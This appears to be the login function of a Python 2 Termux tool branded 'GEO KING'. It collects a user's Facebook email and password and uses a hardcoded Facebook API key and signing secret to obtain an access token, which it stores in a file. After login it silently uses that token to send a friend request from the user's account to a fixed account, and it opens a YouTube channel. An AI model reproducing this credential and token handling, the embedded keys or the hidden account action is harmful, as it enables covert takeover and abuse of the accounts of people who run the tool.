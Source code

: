 def login():
	os.system('clear')
	try:
		toket = open('login.txt','r')
		menu() 
	except (KeyError,IOError):
		os.system('clear')
		print logo
		jalan(' \033[1;91mWarning: \033[1;93mTermux Old Version Install 0.63 to 0.83' )
		jalan(' \033[1;91m   Note: \033[1;93mUse a New Account To Login' )
		print "\033[1;93m❥•❥•❥•❥•❥•❥•❥•❥•\033[1;97mGEO KING\033[1;93m❥•❥•❥•❥•❥•❥•❥•❥•"
		print('	   \033[1;97m■\x1b[1;93m❥•❥•❥•❥••LOGIN WITH FACEBOOK❥•❥•❥•❥••\x1b[1;97m■' )
		print('	' )
		id = raw_input('\033[1;97m[+] \x1b[1;93mID/Email\x1b[1;97m: \x1b[1;93m')
		pwd = raw_input('\033[1;97m[+] \x1b[1;93mPassword\x1b[1;97m: \x1b[1;93m')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\x1b[1;96mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;95mLogin Successful...'
				os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;91mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;91mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;93mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
